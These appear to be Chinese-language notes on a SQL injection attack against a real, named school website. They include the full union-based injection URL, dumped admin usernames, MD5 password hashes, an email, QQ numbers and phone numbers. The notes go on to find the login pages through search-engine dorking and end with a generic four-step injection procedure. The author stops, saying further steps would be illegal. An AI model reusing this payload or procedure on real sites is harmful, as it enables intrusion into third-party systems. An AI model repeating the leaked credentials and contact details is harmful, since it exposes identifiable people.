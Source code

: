 	kbenfqir   1f1767b5696e79116b11ecc7f2882783
	ckxlllum   1f1767b5696e79116b11ecc7f2882783
	ibqydfyr   1f1767b5696e79116b11ecc7f2882783
	mlgwwsfx   1f1767b5696e79116b11ecc7f2882783
	yqhlmjjf   1f1767b5696e79116b11ecc7f2882783
	shufu      e10adc3949ba59abbe56e057f20f883e
	lirsetjq   1f1767b5696e79116b11ecc7

	很多密码都是一样的, 这是个测试用的废表?

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20%20group_concat(username)%20from%20qcss.qcms_user)%20--

qcss.qcms_user的用户名,密码

	admin
	yaoshf

	admin  21232f297a57a5a743894a0e4a801fc3
	yaoshf dfc301534e7ee540498f3b83133b8554
                                                                 qq         tel
	admin  21232f297a57a5a743894a0e4a801fc3  hbdy_sf@163.com  52703859   12345678 湖北大冶一中
	yaoshf dfc301534e7ee540498f3b83133b8554  hbdy_sf@163.com             8737075  大冶一中信息中心

	-- admin的QQ号码真实存在

寻找后台, 放狗(inurl:login  site:dyyz.net.cn):

	www.dyyz.net.cn/celebrate/login.php    //校庆分站的登陆
	www.dyyz.net.cn/login.php              //主站的登陆

校庆分站貌似可以随意注册

	http://www.dyyz.net.cn/celebrate/reg.php  貌似可以随意注册啊!

	猜测注册的用户位于qcss.qcms_user表中, 应为这个表结构中密码列示password和页面的中密码框的名称一致

	注册进去后会有什么情况..

到此为止了！不然要犯法了...

## 总结

发现注入点后, 按照以下过程进行:

	1  注入union语句, 猜测被注入语句查询的列数 " union select 1,2,3,4,5 --"
	2  仔细观察页面, 寻找页面上可以被注入语句改写的地方
	3  调整注入语句, 将关注的敏感信息读取到页面上
	4  测试当前数据库用户的权限, 读取、修改、插入、写文件等

## 文献
